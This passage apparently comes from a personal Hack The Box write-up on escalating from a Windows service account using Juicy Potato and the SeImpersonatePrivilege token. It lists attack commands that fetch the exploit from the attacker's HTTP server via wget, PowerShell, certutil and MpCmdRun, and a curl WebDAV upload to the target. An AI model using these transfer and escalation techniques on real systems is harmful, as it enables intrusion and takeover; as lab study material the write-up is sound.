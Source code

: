 # Shell as Network Service

This was my second attempt at this box after a long break from retired boxes (and HTB in general).

I spent a bit of time fiddling around with Juicy Potato before I landed on the correct exploit, which you can [[15 - Shell as Network Service#Token Kidnapping|skip to]] if you like, as always.

## Trying Juicy Potato

I landed as a service user, which I know from recent research commonly has the `SeImpersonatePrivilege` privilege - sure enough:

![[Pasted image 20210611170617.png]]

From a bit of research on another box, I think this can be used to escalate privileges with Juicy Potato or a similar exploit.

A couple of articles were useful here:
- [Hacktricks](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens) for pointing to PoC implementations
- [Infinite Logins](https://infinitelogins.com/2020/12/09/windows-privilege-escalation-abusing-seimpersonateprivilege-juicy-potato/) for step by step exploit instructions
- [Foxglove](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)for a detailed explanation of how it works in theory

I downloaded `JuicyPotato.exe` from the [releases link](https://github.com/ohpe/juicy-potato/releases/tag/v0.1), and attempted to transfer it to the box using a python server:

```bash
┌──(mac㉿kali)-[~/Documents/exploits]
└─$ mv ~/Downloads/JuicyPotato.exe .
┌──(mac㉿kali)-[~/Documents/exploits]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

I tried a few methods of transferring the file:

- `wget 10.10.14.13:8000/JuicyPotato.exe`
- `powershell -command "Invoke-WebRequest -Uri http://10.10.14.13:8000/JuicyPotato.exe"`
- `powershell.exe -command "Invoke-WebRequest -Uri http://10.10.14.13:8000/JuicyPotato.exe"`
- `certutil.exe -urlcache -f "http://10.10.14.13:8000/JuicyPotato.exe" f.exe`
- `MpCmdRun.exe -DownloadFile -url "http://10.10.14.13:8000/JuicyPotato.exe" f.exe`

But none of them worked.

This was about where I got to on my first attempt, and I took a break. When I came back to the box a few weeks later, it clicked - I could just reuse WebDAV to upload:

```bash
┌──(mac㉿kali)-[~/Documents/exploits]
└─$ ls
JuicyPotato.exe
┌──(mac㉿kali)-[~/Documents/exploits]
└─$ curl -T JuicyPotato.exe http://10.10.10.15/jp.txt
```

